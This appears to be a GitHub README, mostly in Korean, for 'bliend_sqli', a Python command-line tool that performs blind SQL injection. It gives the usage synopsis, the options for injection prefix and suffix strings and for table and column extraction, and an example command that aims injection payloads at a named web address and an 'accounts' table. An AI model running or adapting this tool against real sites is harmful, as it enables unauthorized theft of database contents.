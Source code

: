 # bliend_sqli
Bliend SQL Injcetion Attack Python Code.

Bliend SQL Injection 공격을 실행하는 코드입니다.

## 사용법
  ```bash
  usage: sqli.py [-h] [-d DATABASE] [-t TABLE [TABLE ...]]
                 [-c COLUMN [COLUMN ...]] -u URL -q QUERY -sign        
                 SIGNATURE [-s STARTER] [-e ENDER] [-ck COOKIE]        
                 [-m METHOD] [-l LIM]
                 execution
  ```
## 사용 예제
```bash
  EX: python sqli.py -u http://nk.iqsp.com/nk/conent.php -t accounts ips -p id=kaya pw=passwd -q id -s "131' and" -sign Hacked -e " and '1' = '1" data'
```

## 옵션
  
1. options:
  ```bash
    -h, --help            show this help message and exit
  ```

2. 필수 옵션:
   반드시 작성해야하는 옵션입니다.
  ```bash  
  -t TABLE [TABLE ...], --table TABLE [TABLE ...]
                        테이블명 지정
  execution             실행할 옵션(db, table, column, data)
  -u URL, --url URL     URL 주소
  -q QUERY, --query QUERY
                        URL 쿼리 파라미터
  -sign SIGNATURE, --signature SIGNATURE
                        True의 시그니처 지정
  ```
  
3. 선택옵션:
  초기값이 있는 옵션들 입니다.

  ```bash
  -d DATABASE, --database DATABASE
                        데이터베이스명 지정. 초기값은 사용중인 DB    
  -c COLUMN [COLUMN ...], --column COLUMN [COLUMN ...]
                        컬럼명 지정
  -s STARTER, --starter STARTER
                        여는 SQL문. 초기값 ' and
  -e ENDER, --ender ENDER
                        닫는 SQL문. 초기값 #
  -ck COOKIE, --cookie COOKIE
                        쿠키값 지정.
  -m METHOD, --method METHOD
                        HTTP 메서드 지정. (G)/P
  -l LIM, --lim LIM     데이터 갯수 제한
  -p PARA [PARA ...], --para PARA [PARA ...]
                        파라미터 값 지정
  ```

